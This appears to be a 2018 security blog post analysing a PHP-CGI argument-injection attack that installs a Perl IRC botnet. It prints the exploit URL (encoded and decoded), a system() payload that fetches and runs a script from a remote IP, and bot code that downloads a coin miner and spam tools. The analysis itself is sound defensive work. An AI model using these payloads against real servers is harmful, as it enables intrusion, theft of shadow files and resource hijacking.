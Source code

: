 ```yaml
---
title: "CGI-BIN PHP Cleaner, Ostensibly"
#author: "Author Name"
description: "Another actor using the same Netgear bug again, resurrecting it.  This time not for cryptomining, but for a botnet."
#cover: "/img/cover.jpg"
#tags: ["tagA", "tagB"]
date: 2018-07-20T00:00:00-00:00
draft: false
---
```


Here's another version of the Netgear DGN bug being used recently - an attack against webservers that have php executable under cgi-bin.  The POST request URL looks like:

```
//cgi-bin/php?%2D%64+%61%6C%6C%6F%77%5F%75%72%6C%5F%69%6E%63%6C%75%64%65%3D%6F%6E+%2D%64+%73%61%66%65%5F%6D%6F%64%65%3D%6F%66%66+%2D%64+%73%75%68%6F%73%69%6E%2E%73%69%6D%75%6C%61%74%69%6F%6E%3D%6F%6E+%2D%64+%64%69%73%61%62%6C%65%5F%66%75%6E%63%74%69%6F%6E%73%3D%22%22+%2D%64+%6F%70%65%6E%5F%62%61%73%65%64%69%72%3D%6E%6F%6E%65+%2D%64+%61%75%74%6F%5F%70%72%65%70%65%6E%64%5F%66%69%6C%65%3D%70%68%70%3A%2F%2F%69%6E%70%75%74+%2D%64+%63%67%69%2E%66%6F%72%63%65%5F%72%65%64%69%72%65%63%74%3D%30+%2D%64+%63%67%69%2E%72%65%64%69%72%65%63%74%5F%73%74%61%74%75%73%5F%65%6E%76%3D%30+%2D%64+%61%75%74%6F%5F%70%72%65%70%65%6E%64%5F%66%69%6C%65%3D%70%68%70%3A%2F%2F%69%6E%70%75%74+%2D%6E
```

Which translates to:

```
//cgi-bin/php?-d+allow_url_include=on+-d+safe_mode=off+-d+suhosin.simulation=on+-d+disable_functions=""+-d+open_basedir=none+-d+auto_prepend_file=php://input+-d+cgi.force_redirect=0+-d+cgi.redirect_status_env=0+-d+auto_prepend_file=php://input+-n
```

The body of the request is then:

```
<? system("cd /tmp ; wget hxxp://61.180.181.98/clean ; curl -O hxxp://61.180.181.98/clean ; fetch hxxp://61.180.181.98/clean ; chmod +x clean ; ./clean ; rm -rf clean* ; history -c "); ?>
```

That "clean" script actually begins by cleaning up things some other recent versions of the exploit have left behind...  It kills xmrig, minerd, and several other things that look like part of earlier attacks.  Then it grabs some information about your system, and the shadow file, and mails it all to `marcimarcel221@gmail.com`.

The next step is to download a Perl IRC bot - `hxxp://61.180.181.98/plaintext.txt`.  Virus Total hadn't seen this particular hash yet, but this is a pretty common one.  The specific "configuration" is by "Lucifer@2018", with BTC address "16p68FyW8Pe2mNutg5Qu8afJt18dqX8W5z", at "user@lucifer.services".

This IRC bot actually does a little more...

```
if ($funcarg =~ /^mineBTC (.*)/) {
        my $stringfolder;
    for (0..7) { $stringfolder .= chr( int(rand(25) + 65) ); }
    my $minerUrl = "hxxp://xdss.altervista.org/wp-content/minerBTC/mineryess.tgz";
    system("killall -9 minerd ; cd /tmp ; rm -rf .doc-* ; mkdir .doc-$stringfolder ; cd .doc-$stringfolder ; wget $minerUrl ; curl -O $minerUrl ; fetch $minerUrl ; tar -zxvf mineryess.tgz ; rm -rf  mineryess.tgz* ; mv miner .xdxdx ; cd .xdxdx ; chmod +x * ; nohup ./minerd -o stratum+tcp://yescrypt.mine.zpool.ca:6233 -u 1Ay4VXFPL93yu1UMpYwBC6P3QqzaQXeHTm -p d=0.5,x11=0.5,qubit=0.5,bitcore=0.5,tribus=0.5,hsr=0,5,phi=0,5,equihash=0.5,hmq1725=0.5,equihash=0.5 >/dev/null &");
        $pid_minerd = `pgrep minerd`;
    sendraw($IRC_cur_socket, "PRIVMSG $printl :^B^C4,1 [BTC MINING]^B ^C9,1STARTED ! PID : $pid_minerd");
        }
```

Download a coin miner from xdss.altervista.org.  Pool specified in there too...

And because one cleaning script isn't enough...

```
if ($funcarg =~ /^cleanbots (.*)/) {
        my $stringfolder;
    sendraw($IRC_cur_socket, "PRIVMSG $printl :^B^C4,1 [CLEAN BOTS]^B ^C9,1STARTED !");
    for (0..7) { $stringfolder .= chr( int(rand(25) + 65) ); }
    my $scripturl = "hxxp://xdss.altervista.org/wp-content/scripts/clean";
    system("cd /tmp ; rm -rf .cl-* ; mkdir .cl-$stringfolder ; cd .cl-$stringfolder ; wget $scripturl ; curl -O $scripturl ; fetch $scripturl ; chmod +x * ; nohup ./clean >/dev/null &");
        system("cd /tmp ; rm -rf .cl-$stringfolder ; history -c");
        }
```

The resulting cleaning script is the same as the earlier one, including the gmail dump address and "plaintext.txt" specification.

All kinds of little tools to download from different places...

```
if ($funcarg =~ /^startsend (.*)/) {
  my $target1 = "$1";
  my $target2 = "$2";
  my $stringfolder;
    for (0..7) { $stringfolder .= chr( int(rand(25) + 65) ); }
    my $senderUrl = "hxxp://xhost.altervista.org/wp-content/ten/2018/send/send.tgz";
    system("cd /tmp ; rm -rf .snd-* ; mkdir .snd-$stringfolder ; cd .snd-$stringfolder ; echo $meunick > `pwd`/botnick ; wget $senderUrl ; curl -O $senderUrl ; fetch $senderUrl ; tar -zxvf send.tgz ; rm -rf  send.tgz* ; chmod +x * ; nohup php send.php $target1 $target2 ; cd /tmp ; rm -rf .snd-$stringfolder >/dev/null &");
    sendraw($IRC_cur_socket, "PRIVMSG $printl :^B^C4,1 [E-mail sending]^B ^C9,1STARTED ! File : $target1 $target2");
  }
```

"send.tgz" includes a php script which will require some deobfuscation, it uses a ton of "\x" encoding, then further uses a bunch of indirection through PHP global variables...  After some analysis, it looks like a script that uses a variety of indirection means to be commanded to send email.  There seems to be support for reading a file mapping IRC bot nicknames to email addresses.  This would be handy when trying to use a botnet to send email to a bunch of destinations.  The content seems to come from a set URL, then the IRC controller can command bots to read the list of emails from a URL specified in the command.

"miner.tgz" contains a copy of [cpuminer-yescrypt](https://github.com/GlobalBoost/cpuminer-yescrypt).  It even includes the source...  It even includes the .git directory, actually, which reveals that its origin was actually [noncepool's version](https://github.com/noncepool/cpuminer-yescrypt.git).  The config log reveals that configuration was run on "vmd3959.contabo.net", "3.2.0-4-amd64", "Debian 3.2.51-1", but "gcc version 4.7.2 (Debian 4.7.2-5)".

This specific compile of minerd (SHA256 925e4a411a254cb3364b8dd5c3c184ba92bd1100a4ae06902f3905ceeb38c4a0) was first uploaded to VirusTotal on 19 Oct, 2017, and the compile times (preserved because it's from a tar file) were from 10 Jun, 2017, so generally in-line.
